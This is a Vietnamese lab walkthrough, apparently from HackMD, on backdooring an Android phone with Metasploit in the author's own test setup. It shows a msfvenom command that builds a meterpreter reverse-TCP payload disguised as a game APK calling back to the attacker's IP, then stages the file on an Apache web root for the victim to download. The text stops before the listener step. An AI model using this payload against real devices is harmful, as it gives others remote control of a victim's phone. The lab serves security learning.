 # Hack Android với MSF

- mình thực hiện lab này với 1 laptop chạy máy ảo kali đóng giả attacker, 1 điện thoại android đóng giả làm nạn nhân

![image](https://hackmd.io/_uploads/H1oB__rk0.png)

- mình sẽ dùng phần mềm **Vysor** để hiện màn hình điện thoại lên máy tính

![image](https://hackmd.io/_uploads/ByPhGjHkC.png)

- kịch bản khai thác

  1. attacker tạo file thực thi có extension .exe để chạy trên máy victim là máy Android
  2. attacker gửi file backdoor cho victim
  3. victim sẽ tải và chạy file backdoor này
  4. và attacker có quyền điều khiển máy victim

- mình có IP của attacker là 192.176.45.103
  ![image](https://hackmd.io/_uploads/HJ_ESZHyA.png)

- mình có IP của victim là 192.176.45.102
  ![image](https://hackmd.io/_uploads/rJrRLOrkA.png)

- mình được ánh xạ địa chỉ như sau:

| Host                    | IP address       |
| ----------------------- | ---------------- |
| `Kali linux` (Attacker) | `192.176.45.103` |
| `Android` (Victim)      | `192.176.45.102` |
| `Default Gateway`       | `192.176.45.1`   |

- đầu tiên trên máy attacker mình tạo 1 file RCE với LHOST là địa chỉ máy kali linux LPORT là port sẽ nghe thông tin trả về
- và mình được file backdoor này lưu ở Desktop

```bash
msfvenom -p android/meterpreter/reverse_tcp lhost=192.176.45.103 lport=6789 > gamevul.apk
```

![image](https://hackmd.io/_uploads/BJuM8-ryR.png)

mình đưa file này vào thư mục `/var/www/html`

```bash
cp gamevul.apk /var/www/html
```

![image](https://hackmd.io/_uploads/BkiwIZHJA.png)

- và sau đó mình sẽ chạy dịch vụ server web apache2 để victim có thể truy cập đến và download file backdoor về chạy
